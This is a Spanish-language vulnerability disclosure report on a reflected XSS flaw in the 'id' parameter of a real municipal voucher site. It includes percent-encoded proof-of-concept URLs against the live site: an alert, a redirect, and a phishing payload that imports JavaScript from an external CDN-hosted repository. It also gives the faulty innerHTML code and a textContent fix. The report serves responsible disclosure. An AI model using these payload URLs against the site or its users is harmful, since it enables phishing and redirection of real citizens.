


---
tags:
  - hobbies/seguridad
created_time: 2025-12-16 23:15
completa: false
urgente: false

title: "INFORME DE VULNERABILIDAD, XSS en soriabonos.es"
author: "David Mieres Pérez"
titlepage: true
---

## 1. Resumen Ejecutivo

<!-- Breve explicación para no técnicos. -->

Durante una navegación rutinaria por el sitio web **[soriabonos.es][root]**, se
ha identificado una vulnerabilidad de seguridad del tipo **Cross-Site Scripting
(XSS),** ([referencia][wikipedia]) en un parámetro de la URL en la página
[https://gestion.soriabonos.es/qr.html][gestion].

Este fallo permite a un atacante externo manipular el comportamiento de la web
(del lado del cliente o usuario, en ningún momento desde el lado del servidor),
pudiendo redirigir a los usuarios a sitios maliciosos, suplantar la identidad de
la organización o posibles fallos a mayores.

Nivel de severidad estimado: **Alto**

---

## 2. Detalles Técnicos

-   **Vulnerabilidad:** Reflected Cross-Site Scripting (XSS)
    ([referencia][wikipedia_reflected])

-   **URL Afectada:** [https://gestion.soriabonos.es/qr.html][gestion] (y
    redirecciones como [https://qr.soriabonos.es/][qr])

-   **Parámetro Vulnerable:** `?id=`

-   **Navegadores probados:** Chrome (ordenador y móvil), Firefox (ordenador y
    móvil).

-   **Otros fallos detectados:** No se valida el código QR a generar. Espero que
    se valide a la hora de canjearlo si se ha creado verídicamente por un
    usuario. Para ello se puede comprobar que la página crea un código QR
    (posiblemente canjeable ante la falta de pruebas) con un id inventado, por
    ejemplo: [https://qr.soriabonos.es/ZZZZZZZ][Z] o
    [https://qr.soriabonos.es/0][0]

<!-- TODO: captura de la página -->

-----------------------------------------------------------

\newpage
## 3. Prueba de Concepto (PoC)

<!-- Pasos exactos para reproducir el fallo. -->

Para confirmar la existencia de la vulnerabilidad, se han realizado las
siguientes pruebas no intrusivas:

**Paso 1:** Inyección de HTML en la URL

Cómo prueba, probamos a inyectar HTML en el atributo `id` y vemos cómo reacciona
la página. En caso de que nos permita modificar tanto el texto cómo la
apariencia mediante tags HTML, se puede continuar y probar a ejecutar un script
JS.

Introducimos la siguiente cadena HTML: `<b><s>ABC</b></s>ABC`, para evitar fallos
la codificamos con codificación porcentual. El resultado después de codificarla:
`%3Cb%3E%3Cs%3EABC%3C%2Fb%3E%3C%2Fs%3EABC`, y por tanto la URL es
[https://qr.soriabonos.es/%3Cb%3E%3Cs%3EABC%3C%2Fb%3E%3C%2Fs%3EABC](https://qr.soriabonos.es/%3Cb%3E%3Cs%3EABC%3C%2Fb%3E%3C%2Fs%3EABC)



**Paso 2:** Ataque XSS

Una vez comprobado que no se sanea la entrada del usuario y que cabe la
posibilidad de que exista la vulnerabilidad de Cross-Site Scripting, trataremos
de explotarla y verificar que existe en la página. Codificamos la siguiente
cadena HTML y la introducimos en el campo vulnerable: ``.

[https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22alert%281%29%22%3E][alert]



Observamos que aparece una pequeña ventana. Esto puede parecer poco peligroso,
pero permite a un actor malicioso modificar no solo en el HTML la apariencia de
un campo cómo hemos visto en el paso 1, permite cambiar por completo la página,
para una campaña de phising utilizando vuestro nombre de dominio, o incluso
redirigir a vuestros usuarios a sitios maliciosos.

---

\newpage
## 4. Impacto Potencial

<!-- Aquí explicas qué pasaría en el "peor caso" (lo que hablamos antes). -->

Si un atacante malintencionado explotara este fallo, podría generar enlaces
con:

1.  **Phishing Avanzado:** Crear formularios falsos sobre el dominio legítimo
    del ayuntamiento para robar credenciales de ciudadanos (DNI, número de
    teléfonos, contraseñas...). [Ejemplo][phising].

2.  **Redirección Maliciosa:** Enviar a los visitantes a sitios de descarga de
    malware o ransomware. [Ejemplo][redirect].

3.  **Acceso a la red local de los usuarios:** Usando herramientas como BeEF
    (Browser Exploitation Framework), el atacante usa el navegador de la víctima
    como un "zombie" o proxy.

4.  **Robo de sesión:** En caso de que un usuario que haya inciado sesión abra
    un enlace malicios se puede acceder a sus cookies de la sesión y mandarlas
    a un servidor controlado por el atacante para acceder a páginas protegidas
    detras de un inicio de sesión. Ver el Anexo A para un ejemplo.

Cómo solo refleja la entrada del usuario (no se guarda, cómo
por ejemplo en el caso de comentarios en foros), es de tipo
reflexiva o *reflected*. [Referencia a
wikipedia][wikipedia_reflected].

Para más información sobre estos ejemplos más complejos de
casos más graves, ver el Anexo A. Aquí solo se proporcionan
las URLs.

> Todo lo que se ve en estos enlaces solo se puede ver desde
> vuestro dispositivo y en nigún momento estoy modificando
> los contenidos almacenados en la página web. Tampoco hay
> ningún envío de datos, ni a servicios externos ni a los
> vuestros.

---

\newpage
## 5. Causa del problema

Inspeccionando el código fuente de la página, consta de un único archivo HTML
con el JavaScript empotrado.

```js
$(document).ready(function () {
    const fecha = new Date();
    // ...
       qrcode.resize(512, 512);
       document.getElementById("titulo").innerHTML = getUrlParameter("id");
   });

var getUrlParameter = function getUrlParameter(sParam) {
            var sPageURL = window.location.search.substring(1),
                sURLVariables = sPageURL.split('&'),
                sParameterName,
                i;

            for (i = 0; i < sURLVariables.length; i++) {
                sParameterName = sURLVariables[i].split('=');

                if (sParameterName[0] === sParam) {
                    return sParameterName[1] === undefined ? true : decodeURIComponent(sParameterName[1]);
                }
            }
        };

```

Vemos, que se utiliza el parámetro inseguro `.innerHTML`, sin ninguna validación
de cadenas.

---

\newpage
## 6. Recomendación de Solución

La primera solución es muy simple y trivial de implementar, la segunda es más
compleja pero también solucionaría el fallo adicional de generar códigos QRs a
partir de IDs inexistentes.

1.  Usar atributos de texto plano (`textContent`):

    Si el dato a mostrar es puramente textual, reemplazar la propiedad
    `innerHTML` por `textContent` garantiza que el navegador interprete la
    entrada como texto plano y no como código HTML.

    ```js
    // El navegador muestra literalmente "" como texto.
    document.getElementById("titulo").textContent =
            getUrlParameter("id");
    ```

1.  Validar la entrada:

    A la hora de que introduzcan un id no válido o no generado, en vez de crear
    un código QR con este texto, comprobar en un endpoint del servidor si es
    válido o no. pe.: `qr.soriabonos.es/validate?id=`.

---

## Nota Final

Quedo a su entera disposición para verificar la solución una
vez haya sido implementada o para aclarar cualquier duda
técnica sobre este reporte.

---

[Z]: https://qr.soriabonos.es/ZZZZZZZ
[0]: https://qr.soriabonos.es/0
[root]: https://soriabonos.es
[wikipedia]: https://es.wikipedia.org/wiki/Cross-site_scripting
[wikipedia_reflected]: https://es.wikipedia.org/wiki/Cross-site_scripting#XSS_Indirecto_(reflejado)
[qr]: https://qr.soriabonos.es
[gestion]: https://gestion.soriabonos.es/qr.html
[alert]: https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22alert%281%29%22%3E
[redirect]: https://qr.soriabonos.es/%3Cimg%20src%3Dx%20onerror%3D%22window.location%3D%27%2F%2Fexample.com%27%22%3E
[phising]: https://gestion.soriabonos.es/qr.html?id=%3Cimg%20src%3Dx%20onerror%3D%22import%28%27%2F%2Fcdn.jsdelivr.net%2Fgh%2F0david0mp%2Fxss_examples%2Fphising_v1.js%27%29%22%3E
